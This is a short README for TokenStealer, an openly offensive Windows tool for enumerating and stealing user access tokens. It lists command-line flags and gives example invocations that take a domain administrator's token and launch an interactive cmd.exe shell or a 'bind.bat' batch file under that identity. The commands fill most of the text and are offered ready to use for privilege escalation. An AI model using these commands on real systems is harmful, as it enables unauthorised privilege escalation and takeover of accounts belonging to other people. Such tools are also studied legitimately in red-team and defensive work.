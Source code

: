 # TokenStealer
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all users token<br>
         -e: list all users token with extended info -> <user>:<token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>:<pid><br>
         -p: users token from specfic  process pid<br>
         -u: impersonate token of user <user> <br>
         -c: command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokensin process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of user and execute an interactive  command shell using the AssingPrimary privilege of available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of user in process and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of user and execute an interactive  command shell using the AssingPrimary privilege of available<br>

